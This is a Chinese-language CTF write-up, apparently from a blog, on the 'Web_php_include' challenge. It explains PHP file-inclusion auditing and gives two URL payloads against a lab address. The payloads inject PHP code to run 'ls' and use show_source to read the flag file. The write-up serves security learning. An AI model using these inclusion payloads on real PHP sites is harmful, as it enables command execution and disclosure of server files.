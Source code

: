 ```yaml
---
title: Web_php_include
date: 2020-03-26 15:00:38
tags: [Writeups,代码审计,WEB]
categories: CTF
---
```


如何利用php文件包含，即include


## 解法一（官方writeup）

### 【原理】
php文件包含

### 【目的】
了解如何利用php文件包含

### 【环境】
Windows

### 【工具】
chrome

### 【步骤】
1.审计php代码,while函数根据page参数来判断php文件是否存在，如果存在此文件，则进行文件包含。

2.默认页面为http://127.0.0.1/index.php，设置为page值，可确保while为真

3.利用hello参数将执行内容显示，flag如图所示

{% codeblock %}
http://192.168.100.161:50281/?page=PHP://%3C?system(%22ls%22);?%3E
http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?show_source(%22fl4gisisish3r3.php%22);?%3E
{% endcodeblock %}
<img src="Web-php-include/audit.png" width=80%/>
